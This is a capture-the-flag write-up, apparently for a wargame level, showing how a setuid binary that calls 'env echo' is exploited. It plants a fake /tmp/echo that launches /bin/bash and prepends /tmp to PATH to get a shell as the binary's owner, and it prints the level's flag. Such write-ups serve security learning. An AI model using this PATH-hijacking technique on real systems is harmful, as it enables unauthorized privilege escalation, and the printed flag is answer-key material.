 `ls -l` <br/>
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

`whoami` <br/>
level03

`groups` <br/>
level03 users

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

How can I make this program run getflag ?

`./level03` <br/>
Exploit me

`strings level03` <br/>
...<br/>
/usr/bin/env echo Exploit me<br/>
...<br/>

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

If we make our fake echo function then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

`echo "/bin/bash" > /tmp/echo` <br/>
Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo` <br/>
otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH` <br/>
We added tmp directory at the start of the path. Do command `env` and see path went from: <br/>
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games<br/>
to <br/>
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


`./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

